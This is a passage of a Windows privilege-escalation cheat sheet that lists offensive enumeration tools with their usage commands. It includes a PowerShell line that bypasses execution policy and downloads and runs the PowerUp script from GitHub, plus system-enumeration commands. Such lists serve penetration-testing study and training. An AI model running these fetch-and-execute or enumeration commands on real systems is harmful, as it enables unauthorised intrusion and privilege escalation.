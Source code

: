 ## Tools

- [PowerSploit's PowerUp](https://github.com/PowerShellMafia/PowerSploit)
  ```powershell
  powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
  ```
- [Watson - Watson is a (.NET 2.0 compliant) C# implementation of Sherlock](https://github.com/rasta-mouse/Watson)
- [(Deprecated) Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities](https://github.com/rasta-mouse/Sherlock)
  ```powershell
  powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps1
  ```
- [BeRoot - Privilege Escalation Project - Windows / Linux / Mac](https://github.com/AlessandroZ/BeRoot)
- [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)
  ```powershell
  ./windows-exploit-suggester.py --update
  ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt
  ```
- [windows-privesc-check - Standalone Executable to Check for Simple Privilege Escalation Vectors on Windows Systems](https://github.com/pentestmonkey/windows-privesc-check)
- [WindowsExploits - Windows exploits, mostly precompiled. Not being updated.](https://github.com/abatchy17/WindowsExploits)
- [WindowsEnum - A Powershell Privilege Escalation Enumeration Script.](https://github.com/absolomb/WindowsEnum)
- [Seatbelt - A C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.](https://github.com/GhostPack/Seatbelt)
  ```powershell
  Seatbelt.exe -group=all -full
  Seatbelt.exe -group=system -outputfile="C:\Temp\system.txt"
  Seatbelt.exe -group=remote -computername=dc.theshire.local -computername=192.168.230.209 -username=THESHIRE\sam -password="yum \"po-ta-toes\""
  ```
- [Powerless - Windows privilege escalation (enumeration) script designed with OSCP labs (legacy Windows) in mind](https://github.com/M4ximuss/Powerless)
- [JAWS - Just Another Windows (Enum) Script](https://github.com/411Hall/JAWS)
  ```powershell
  powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
  ```

## Windows Version and Configuration

```powershell
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

Extract patchs and updates

```powershell
wmic qfe
```
